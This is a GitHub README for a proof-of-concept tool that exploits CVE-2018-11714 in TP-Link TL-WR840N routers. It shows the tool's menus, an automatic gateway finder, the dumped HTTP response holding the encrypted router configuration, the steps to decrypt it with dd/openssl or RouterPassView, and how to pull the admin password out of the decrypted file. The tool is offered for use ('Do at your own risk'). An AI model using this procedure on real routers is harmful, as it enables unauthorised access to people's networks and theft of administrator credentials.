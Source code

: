 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR840N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=red)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Touhid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware **0.9.1 3.16 v0001.0 Build 170608 Rel.58696n**. And it hasn't been repaired until this time **(0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)**
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash, dd, openssl, net-tools.

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl dd openssl net-tools -y
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>1
```
### Automatic IP Finder
Or if you have trouble finding the gateway, then you can use automatic mode, so the ip will be filled in automatically.
```
theace1@linux:~./setup -a
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

theace1>2

```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual [ReactOS](https://github.com/reactos/reactos) (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os. So if you are already united with your unix operating system, i was included automatic file decryption in the software based on dd and openssl.

```
-----------------------------------------
-   TPLINK TL-WR840N Proof Of Concept   -
-       Based on CVE-2018-11714         -
-         Do at your own risk!          -
-----------------------------------------

[ 1 ] Manual
[ 2 ] Automatic Gateway Finder
[ 3 ] Decrypt Config File
[ x ] Exit

dvuser>3 

Enter Your Config File Location (Blank for default): conf.bin
Decryption Complete. Now Open tmp.bin file for decrypted file.

```
Then if the decryption is succeed, you can open the decrypted file using text editor eg: nano ,vim ,atom. then search **AdminPwd** string for getting admin username and admin password. Below we can see the password string that contains the word **speeditup123** as the admin password.
***If the admin username is "admin", it will not be displayed in the decrypted file eg:***	

```
AdminPwd^C^@Espeeditup123

```
## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [theace1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Touhid Shaikh](https://blog.securelayer7.net/author/touhid/)  

